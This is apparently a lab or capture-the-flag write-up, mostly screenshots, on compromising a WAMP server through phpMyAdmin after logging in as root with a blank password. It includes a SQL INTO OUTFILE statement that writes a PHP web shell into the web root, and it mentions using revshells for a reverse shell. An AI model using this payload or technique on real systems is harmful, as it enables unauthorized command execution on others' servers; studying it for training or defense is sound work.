 After setting up foxyproxy to use the squid proxy:
![](../attachment/7d81146d5461588e3ef03fd9a666ed89.png)

Now trying to login to phpmyadmin![](../attachment/25388ab9431c2b02d7cae92753d63ba4.png)
We try root with blank password.

Now we get access to the dashboard:
![](../attachment/c12f101b3b2bce2147663dd62ee3ecbd.png)
To find where the directory is located we can use phpinfo:
![](../attachment/b9905564107a9357286fcd433e86dbaa.png)

We can execute SQL:
```SQL
SELECT "<?php system($_GET['cmd']);?>" INTO OUTFILE "C:/wamp/www/shell.php" 
```
![](../attachment/98d1e95f776b9c96c0760e7b29ddd1b9.png)

Now access the web shell:
![](../attachment/d7c4dbfeeb922a33e80bf91d828baf97.png)

Generate a shell with revshells
Now to get a shell:
![](../attachment/f74b49947b33fb21a235b053dfad1897.png)
![](../attachment/9ad183990b3199a13baa64a7cae9ceb8.png)
